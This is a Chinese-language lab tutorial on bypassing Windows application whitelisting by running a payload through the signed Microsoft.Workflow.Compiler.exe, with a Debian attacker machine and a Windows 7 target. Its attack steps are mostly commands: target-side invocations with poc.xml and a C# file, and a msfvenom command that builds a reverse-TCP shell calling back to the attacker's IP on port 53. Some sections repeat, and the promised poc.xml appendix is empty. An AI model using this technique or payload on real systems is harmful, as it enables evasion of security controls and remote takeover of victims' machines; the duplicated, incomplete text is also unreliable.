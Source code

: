 ### 11.6 基于白名单Compiler.exe执行payload（六）

说明：Microsoft.Workflow.Compiler.exe所在路径没有被系统添加PATH环境变量中，因此，Microsoft.Workflow.Compiler命令无法识别。

**基于白名单Microsoft.Workflow.Compiler.exe配置payload：**

Windows 7 默认位置：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe
    
        

攻击机：192.168.1.4 Debian-
靶机：192.168.1.3 Windows 7

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151518329.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

靶机执行：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml Micropoor.tcp
    
        

**结合meterpreter：**

注：payload.cs需要用到System.Workflow.Activities

**靶机执行：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml Micropoor_rev1.cs
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151545967.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101015155667.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**结合meterpreter：**

注：payload.cs需要用到System.Workflow.Activities-
**靶机执行：**

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml Micropoor_rev1.cs
    
        

**配置攻击机msf：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010151642733.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**payload生成：**

    msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f csharp
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101015170632.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**附录：poc.xml**-
注：windows/shell/reverse\_tcp
